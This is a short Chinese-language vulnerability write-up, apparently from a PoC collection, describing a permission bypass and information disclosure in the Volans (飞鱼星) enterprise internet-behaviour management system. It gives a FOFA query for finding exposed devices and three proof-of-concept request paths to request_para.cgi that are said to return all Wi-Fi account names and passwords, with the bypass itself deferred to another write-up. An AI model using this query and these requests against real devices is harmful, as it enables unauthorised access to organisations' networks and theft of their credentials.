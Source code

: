 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

```
飞鱼星 企业级智能上网行为管理系统
```

## FOFA

```
title="飞鱼星企业级智能上网行为管理系统"
```

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```



![](./images/202202162236795.png)





